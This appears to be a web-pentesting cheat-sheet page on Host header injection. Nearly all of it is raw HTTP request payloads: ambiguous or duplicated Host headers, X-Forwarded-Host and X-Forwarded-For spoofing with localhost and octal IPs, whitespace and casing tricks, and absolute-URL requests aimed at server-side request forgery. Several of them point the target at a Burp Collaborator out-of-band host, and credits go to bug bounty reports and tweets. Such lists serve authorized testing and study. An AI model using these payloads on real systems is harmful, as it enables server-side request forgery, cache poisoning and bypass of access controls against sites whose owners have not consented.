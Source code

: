 ### Host Header Injection

{% embed url="https://x.com/MrTuxracer/status/1142165824532340737" %}

```http
GET /Endpoint-To-Proxy HTTP/1.1
Host: RandomString(10).id.burpcollaborator.net
User-Agent: Mozilla/5.0
Referer: https://previous.com/path
Origin: https://www.company.com
Connection: keep-alive
-----------------------------------------------------------
// Ambiguate The Host Header 
Host: company.com@RandomString(10).id.burpcollaborator.net
Host: company.com:@RandomString(10).id.burpcollaborator.net
Host: company.com:RandomString(10).id.burpcollaborator.net
Host: RandomString(10).id.burpcollaborator.net
Host: localhost
Host: company.com:PORT
----------------
Host: RandomString(10).id.burpcollaborator.net
X-Forwarded-Host: RandomString(10).id.burpcollaborator.net
---------------------
//Space-surrounded Host Header
Host: www.company.com
 Host: RandomString(10).id.burpcollaborator.net
-------------------------
//Change Host Header To host Header
host: comapny.com
------------------------
// o Remove The Space That In The Host Header
Host:www.company.com
---------------- 
// Add Tab Instead Of The Space That In The Host Header
Host:   www.company.com
----------------------------
Add / , : , \x00 , \x20 , \x09 , \xad After Value Of The Host Header
Host: www.company.com sensitive-file.txt
----------------------------------------
// Override The Host Header e.g. POST https://company.com 
// AND Change Host Header e.g Host: RandomString(10).id.burpcollaborator.net 
// To Get SSRF
GET https://company.com/Endpoint-To-Proxy HTTP/1.1
Host: RandomString(10).id.burpcollaborator.net
--------------------------------------
// Spoof The Original IP
GET /Endpoint-To-Proxy HTTP/1.1
Host: www.company.com
X-Forwarded-For: 0000::1

Source: https://hackerone.com/reports/44513
-------------------------------
GET /Endpoint-To-Proxy HTTP/1.0
Host: www.company.com
X-Forwarded-For: RandomString(10).id.burpcollaborator.net

Source: https://twitter.com/ADITYASHENDE17/status/1305723250413105152
----------------------------------------------------
GET /Endpoint-To-Proxy HTTP/1.1
Host: www.company.com
X-Forwarded-For: 0177.1

Source: https://twitter.com/agarri_fr/status/965196958011920384
-----------------------------------------------------
```